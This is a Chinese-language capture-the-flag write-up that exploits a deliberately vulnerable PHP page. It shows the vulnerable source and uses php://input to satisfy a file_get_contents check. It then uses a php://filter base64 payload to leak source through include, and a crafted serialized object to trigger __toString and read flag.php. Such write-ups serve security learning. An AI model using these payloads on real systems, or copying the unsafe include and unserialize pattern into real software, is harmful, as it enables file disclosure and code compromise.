



# 考察知识点：

# 1.php伪协议（php://input,php:///filter)

# 2.序列化 toString


# 1.打开网站发现源代码

```javascript
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```


# 2. 查看源代码需要使$text的内容为"welcome to the zjctf”，并且是使用file_get_contents()的方式，不能直接text="welcome to the zjctf"

此时需要采取php://input伪协议


构造：

```javascript
?text=php://input

post:
    welcome to the zjctf
```





此时已经绕过第一个限制


# 3. 提示存在useless.php文件，并且该文件才include前并没有进行任何限制，很显然存在文件包含漏洞，使用php://filter伪协议即可读取源代码


构造：

```javascript
?text=php://input&file=php://filter/convert.base64-encode/resource=useless.php

post:
    welcome to the zjctf
```





# 4.读取到useless.php文件原代码的base64编码，解码即可得到源代码

```javascript
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```


# 5. 根据index.php的unserialize和uselexx.php的toString方法判断存在序列化漏洞

，只要使useless.php文件中的file=flag.php即可得到flag.php文件的你内容

构造序列化数据exp:

```javascript
<?php

class Flag{  //flag.php
    public $file="flag.php";
}

$file=new Flag();
echo serialize($file);
?>

输出：
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```


# 6.访问即可得到flag




